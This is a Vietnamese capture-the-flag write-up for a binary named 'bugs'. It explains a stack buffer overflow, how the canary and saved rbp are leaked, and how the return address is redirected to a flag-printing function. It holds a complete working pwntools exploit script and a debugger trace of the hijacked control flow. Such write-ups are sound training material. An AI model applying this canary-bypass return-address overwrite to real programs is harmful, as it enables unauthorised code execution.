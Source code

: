 
# Bugs

Bài này mục đích của mình sẽ redirect control flow hàm leuleu của chương trình.
```sh
leuleu function
unsigned __int64 leuleu()
{
  FILE *stream; // [rsp+8h] [rbp-78h]
  char s[104]; // [rsp+10h] [rbp-70h] BYREF
  unsigned __int64 v3; // [rsp+78h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  stream = fopen("flag", "r");
  __isoc99_fscanf(stream, "%s", s);
  fclose(stream);
  puts(s);
  return __readfsqword(0x28u) ^ v3;
}

```
Ở bài này chúng ta sẽ dùng lỗi bufferOverflow tại hàm `read(0, a1, 72uLL)` trong `info function` khi mà tham số a1 ( là thằng v6 của hàm main) của mình chỉ có 40 byte.
Mình sẽ thay đổi địa chỉ của `ret` của hàm main thành địa chỉ của hàm `leuleu`. Nhưng vấn đề gặp phải là chương trình có `Stack canary` buộc mình phải by pass nó. 
## Các bước mình khai thác là:
* Leak được địa chỉ trong stack, tìm offset từ địa chỉ leak được tới địa chỉ của canary, và của V[5].
* Dùng hàm findbox cho sẵn để leak canary. (chuyển sang kiểu số nguyên để tìm).
* Dùng hàm flushbox để gán 0 cho v[5], lúc này chương trình sẽ thoát và gọi hàm `leuleu`

# File exploit.py
```sh
from pwn import *
s = process("./bugs")
pause()

#---------- leak địa chỉ của stack ----------------
s.recvuntil("[1. info, 2. show info, 3.findbox, 4.flushbox]>")
s.sendline("3")
s.recvuntil("Address of box>")
s.sendline("a")
s.recv()
leak = s.recv(14)
v5 = int(leak,16) + 0x30 #offset từ leak_addr đến v[5] = 0x30
log.info("v5 = " + hex(v5))

canary_addr = int(leak,16) + 0x5c #offset từ lead_addr đến canary = 0x5c
log.info("leak_canary = " + hex(canary_addr))

#---------- leak canary ---------------------------
s.recvuntil("[1. info, 2. show info, 3.findbox, 4.flushbox]>")
s.sendline("3")
s.recvuntil("Address of box>")
s.sendline(str(canary_addr))

s.recvuntil(": ")
canary = s.recv("18")
print canary
canary = int(canary,16)
#---------- leak rbp -------------------------------
rbp_addr = int(leak,16) + 0x5c + 0x8
log.info("leak_rbp = " + hex(rbp_addr))
s.recvuntil("[1. info, 2. show info, 3.findbox, 4.flushbox]>")
s.sendline("3")
s.recvuntil("Address of box>")
s.sendline(str(rbp_addr))

s.recvuntil(": ")
rbp = s.recvline()
print rbp
rbp = int(rbp,16)

#---------- đưa địa chỉ hàm leuleu vào rbp+8 (ret-main)--------

pl = "a"*0x28 + p64(canary) + p64(rbp) + p64(0x400876)
s.recvuntil(">")
s.sendline("1")
s.recvuntil("Yourname?")
s.sendline(pl)

#---------- xóa giá trị v5 ------------------------------------
s.recvuntil("[1. info, 2. show info, 3.findbox, 4.flushbox]>")
s.sendline("4")
s.recvuntil("Address of box>")
s.sendline(str(v5))

s.interactive()

```

sau khi thực thi thì mình sẽ vào được hàm leuleu
```sh
 RAX  0x0
 RBX  0x0
 RCX  0x7f19d50b3224 (write+20) ?— cmp    rax, -0x1000 /* 'H=' */
 RDX  0x0
 RDI  0x1
 RSI  0x2332260 ?— 'ok!\ness of box> \n info, 3.findbox, 4.flushbox]> \n'
 R8   0x7f19d55a8500 ?— 0x7f19d55a8500
 R9   0x0
 R10  0x7f19d5141c40 (_nl_C_LC_CTYPE_class+256) ?— add    al, byte ptr [rax]
 R11  0x246
 R12  0x400780 (_start) ?— xor    ebp, ebp
 R13  0x7ffce80d2f70 ?— 0x1
 R14  0x0
 R15  0x0
*RBP  0x400b80 (__libc_csu_init) ?— push   r15
*RSP  0x7ffce80d2e98 —? 0x400876 (leuleu) ?— push   rbp
*RIP  0x400b7b (main+236) ?— ret    
--------------------------------------------[ DISASM ]---------------------------------------------
   0x400b61 <main+210>     mov    eax, 0
   0x400b66 <main+215>     mov    rdx, qword ptr [rbp - 8]
   0x400b6a <main+219>     xor    rdx, qword ptr fs:[0x28]
   0x400b73 <main+228>     je     main+235 <main+235>
    ?
   0x400b7a <main+235>     leave  
 ? "0x400b7b <main+236>     ret             <0x400876; leuleu>
    ?"
   0x400876 <leuleu>       push   rbp
   0x400877 <leuleu+1>     mov    rbp, rsp
   0x40087a <leuleu+4>     add    rsp, -0x80
   0x40087e <leuleu+8>     mov    rax, qword ptr fs:[0x28]
   0x400887 <leuleu+17>    mov    qword ptr [rbp - 8], rax
---------------------------------------------[ STACK ]---------------------------------------------
00:0000¦ rsp  0x7ffce80d2e98 —? 0x400876 (leuleu) ?— push   rbp
01:0008¦      0x7ffce80d2ea0 ?— 0xa /* '\n' */
02:0010¦      0x7ffce80d2ea8 —? 0x7ffce80d2f78 —? 0x7ffce80d46eb ?— 0x4c00736775622f2e /* './bugs' */
03:0018¦      0x7ffce80d2eb0 ?— 0x100008000
04:0020¦      0x7ffce80d2eb8 —? 0x400a8f (main) ?— push   rbp
05:0028¦      0x7ffce80d2ec0 ?— 0x0
06:0030¦      0x7ffce80d2ec8 ?— 0x985e41c4d6a6a961
07:0038¦      0x7ffce80d2ed0 —? 0x400780 (_start) ?— xor    ebp, ebp
-------------------------------------------[ BACKTRACE ]-------------------------------------------
 ? f 0           400b7b main+236
   f 1           400876 leuleu
   f 2                a
   f 3     7ffce80d2f78
   f 4        100008000
   f 5           400a8f main
   f 6                
---------------------------------------------------------------------------------------------------

```
### Tác giả: anh H4niz có nói:
` Chạy vô hàm leuleu là ok r nhé em.Tới đây e hoàn toàn có thể chạy trên server để lấy flag r nhé ` 
